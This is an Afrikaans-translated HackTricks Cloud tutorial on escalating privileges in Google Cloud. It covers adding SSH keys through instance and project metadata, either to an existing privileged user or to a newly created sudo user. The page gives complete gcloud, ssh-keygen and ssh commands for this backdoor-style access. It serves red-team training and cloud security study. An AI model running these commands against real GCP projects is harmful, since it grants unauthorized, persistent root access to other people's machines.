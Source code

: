 # GCP - Voeg Aangepaste SSH Metadata By

## GCP - Voeg Aangepaste SSH Metadata By

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Wysig die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata-wysig op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

#### **Inkorporering van SSH Sleutels in Aangepaste Metadata**

Op GCP, **Linux stelsels** voer dikwels skripte uit vanaf die [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om **gereeld** die instansie metadata eindpunt na te gaan vir **opdaterings aan die geautoriseerde SSH publieke sleutels**.

As gevolg hiervan, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daemon laat vind 'n nuwe publieke sleutel, wat verwerk en **geïntegreer sal word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in die `~/.ssh/authorized_keys` lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo` regte skep**, afhangende van die sleutel se formaat. En die aanvaller sal in staat wees om die gasheer te kompromitteer.

#### **Voeg SSH sleutel by bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH Sleutels op die Instansie:**
*   Voer die opdrag uit om die instansie en sy metadata te beskryf om bestaande SSH sleutels te vind. Die relevante afdeling in die uitvoer sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Let op die formaat van die SSH sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n dubbelepunt.
2. **Bereid 'n Tekslêer voor vir SSH Sleutel Metadata:**
* Stoor die besonderhede van gebruikersname en hul ooreenstemmende SSH sleutels in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwe bygevoeg word.
3. **Genereer 'n Nuwe SSH Sleutel vir die Teiken Gebruiker (`alice` in hierdie voorbeeld):**
*   Gebruik die `ssh-keygen` opdrag om 'n nuwe SSH sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teiken gebruikersnaam.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Voeg die nuwe publieke sleutel by `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.
4. **Werk die Instansie se SSH Sleutel Metadata Op:**
*   Pas die opgedateerde SSH sleutel metadata toe op die instansie met die `gcloud compute instances add-metadata` opdrag.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Toegang tot die Instansie met die Nuwe SSH Sleutel:**
*   Verbinde met die instansie met SSH met die nuwe sleutel, en toegang tot die skulp in die konteks van die teiken gebruiker (`alice` in hierdie voorbeeld).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH sleutel by**

As daar geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo` regte gegee sal word:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die bereik van SSH-toegang tot verskeie Virtuele Masjiene (VM's) in 'n wolkomgewing te verbreed deur **SSH sleutels op projekvlak toe te pas**. Hierdie benadering laat SSH-toegang toe tot enige instansie binne die projek wat nie eksplisiet projekwye SSH-sleutels geblokkeer het nie. Hier is 'n samegevatte gids:

1. **Pas SSH Sleutels op die Projekvlak toe:**
*   Gebruik die `gcloud compute project-info add-metadata` opdrag om SSH sleutels van `meta.txt` by die projek se metadata te voeg. Hierdie aksie verseker dat die SSH sleutels oor alle VM's in die projek erken word, tensy 'n VM die "Blok projekwye SSH sleutels" opsie geaktiveer het.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instansies met Projek-Wye Sleutels:**
* Met projek-wye SSH sleutels in plek, kan jy SSH in enige instansie binne die projek. Instansies wat nie projek-wye sleutels blokkeer nie, sal die SSH-sleutel aanvaar, wat toegang verleen.
* 'n Direkte metode om in 'n instansie te SSH is deur die `gcloud compute ssh [INSTANCE]` opdrag te gebruik. Hierdie opdrag gebruik jou huidige gebruikersnaam en die SSH-sleutels wat op projekvlak gestel is om toegang te probeer verkry.

## Verwysings

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
